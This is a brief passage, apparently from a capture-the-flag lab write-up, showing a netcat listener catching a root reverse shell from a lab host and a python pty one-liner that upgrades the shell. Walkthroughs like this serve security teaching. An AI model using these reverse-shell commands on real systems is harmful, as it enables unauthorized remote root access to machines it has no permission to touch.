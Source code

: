 ```bash
[+] Connecting !
```

```bash
┌─[root@linux]─[/opt] 
└──╼ #nc -lvnp 4444 
listening on [any] 4444 ... 
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 39930
whoami
root
```
To get a nice shell we can use pty
```bash
python -c 'import pty; pty.spawn("bash")' 
root@lame:/#
```
